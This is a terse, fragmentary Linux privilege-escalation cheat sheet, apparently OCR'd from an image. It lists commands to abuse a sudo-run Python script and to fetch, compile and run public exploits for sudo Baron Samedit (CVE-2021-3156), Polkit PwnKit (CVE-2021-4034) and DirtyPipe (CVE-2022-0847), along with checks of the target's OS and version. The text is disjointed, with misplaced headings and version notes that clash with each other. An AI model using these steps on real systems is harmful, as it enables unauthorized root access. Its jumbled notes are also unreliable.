 ```
os.system('id')
```
run mem_status.py
```
sudo /usr/bin/python3 mem_status.py
```
# sudo -V | head -n1
## affected the sudo versions
```
1.8.31 - Ubuntu 20.04
1.8.27 - Debian 10
1.9.2 - Fedora 33
Others
```
## CVE-2021-3156 and is based on a heap-based buffer overflow vulnerability
1. git clone https://github.com/blasty/CVE-2021-3156.git
```
make
```
2. find out which version of the operating system we are dealing with
```
cat /etc/lsb-release
```
```
./sudo-hax-me-a-sandwich
```
3. choose option according to the OS
```
all versions below 1.8.28
```
# grep PRETTY /etc/os-release
## Ubuntu 20.04
## Polkit
https://github.blog/security/vulnerability-research/privilege-escalation-polkit-root-on-linux-with-bug/
```
git clone https://github.com/arthepsy/CVE-2021-4034.git
```
```
cd CVE-2021-4034
```
```
gcc cve-2021-4034-poc.c -o poc
```
```
./poc
```
# uname -r (check if gcc is available on the target host)
## All kernels from version 5.8 to 5.17 are affected and vulnerable to this vulnerability.
```
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
```
```
cd CVE-2022-0847-DirtyPipe-Exploits
```
```
```
